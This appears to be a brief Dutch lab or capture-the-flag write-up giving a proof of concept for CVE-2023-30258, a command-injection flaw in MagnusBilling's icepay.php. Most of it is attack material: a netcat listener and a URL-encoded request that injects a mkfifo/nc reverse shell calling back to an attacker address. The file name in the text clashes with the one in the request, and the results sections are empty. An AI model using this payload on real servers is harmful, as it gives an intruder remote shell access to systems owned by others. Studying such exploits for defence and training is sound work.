


## POC

### CVE-2023-30258

#### Uitwerking

*De file ciepay.php in /mbilling/lib/icepay directory is kwetsbaar aan een command execution via een get request met params {"democ": payload}.*

#### Proof of Concept

##### Curl Request

```
nc -lvnp 9001
```

```
http://10.10.249.94/mbilling/lib/icepay/icepay.php?democ=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Ccmd%20-i%202%3E%261%7Cnc%2010.9.3.63%209001%20%3E%2Ftmp%2Ff
```

**Resulteert in:**



**Kwetsbaarheid**

